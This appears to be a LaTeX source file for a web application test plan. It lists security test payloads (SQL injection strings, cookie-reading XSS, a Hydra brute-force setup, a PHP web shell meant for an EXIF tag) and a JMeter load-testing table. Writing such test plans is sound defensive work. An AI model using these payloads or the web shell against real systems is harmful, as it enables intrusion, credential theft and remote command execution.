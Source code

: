 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Security Test Payloads}
\begin{itemize}
\item \textbf{SQL Injection Vectors:}
  \begin{itemize}
  \item \texttt{' OR '1'='1}
  \item \texttt{' UNION SELECT null, username, password FROM users --}
  \end{itemize}
\item \textbf{XSS Attack Payloads:}
  \begin{itemize}
  \item \texttt{<script>alert('XSS')</script>}
  \item \texttt{<img src=x onerror=alert(document.cookie)>}
  \end{itemize}
\item \textbf{Hydra Brute Force Wordlist:}
  \begin{itemize}
  \item User list: \texttt{admin}, \texttt{administrator}, \texttt{ahmed}
  \item Passwords: \texttt{rockyou.txt} (top 500 lines)
  \end{itemize}
\item \textbf{EXIF Embedded Payload:}
  \begin{itemize}
  \item Tag: \texttt{Artist}
  \item Value: \texttt{<?php system(\$\_GET['cmd']); ?>}
  \end{itemize}
\end{itemize}

\subsection{Performance Load Profiles}
\begin{table}[H]
\centering
\caption{Simulated JMeter Concurrency Benchmarks}
\begin{tabular}{|l|c|c|c|}
\hline
\textbf{Scenario} & \textbf{Target Requests} & \textbf{Ramp-up (Seconds)} & \textbf{Duration (Seconds)} \\ \hline
Stage 1: Smoke & 100 & 95 & Continuous \\ \hline
Stage 2: Load & 1,000 & 95 & Continuous \\ \hline
Stage 3: Peak & 10,000 & 300 & Continuous \\ \hline
Stage 4: Stress & 50,000 & 600 & Continuous \\ \hline
Stage 5: Endurance & 10,000 & 300 & 3600 (1 hour) \\ \hline
\end{tabular}
\end{table}
\end{document}
